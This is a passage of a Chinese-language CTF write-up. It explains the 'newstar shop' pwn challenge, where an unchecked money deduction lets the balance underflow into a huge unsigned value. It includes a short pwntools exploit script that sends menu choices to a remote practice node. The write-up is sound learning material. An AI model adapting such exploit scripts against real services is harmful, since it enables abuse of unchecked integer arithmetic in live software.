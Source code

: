 ```python

# p.sendline(payload)
p.interactive()

```

获取flag

![image-20240421113214032](../typora-user-images/image-20240421113214032.png)





#### newstar shop

![image-20240421113738212](../typora-user-images/image-20240421113738212.png)

检查之后使用IDA打开

程序确实是一个商店购买的形式，选择1是展示售卖的商品，选择2是赚钱，选择3是惩罚我们即扣钱

一次扣除我们50且只有一次机会，IDA中发现我们的钱为0x64即100元

​		这道题的考点是**整数溢出**，因为第三个选项扣除钱时没有检查，所以我们可以让我们的money为负数，即很大的正整数。

exp

```python
# 总体过程是先买两次writeup，剩20，然后再去选择3减去50，这时我们的money就会成为很大的整数
# 买gift的话，也会给出提示
# You buy a newstar's gift
# That is the gift:
# What will happen when int transfer to unsigned int?
from pwn import *

# p=process("./newstar_shop")
p=remote("node5.buuoj.cn",25441)

for _ in range(2):
    p.sendline("1")
    p.sendline("2")
p.sendline("3")
p.sendline("1")
p.sendline("3")
p.interactive()

```

获取flag

![image-20240421140839834](../typora-user-images/image-20240421140839834.png)





#### p1eee

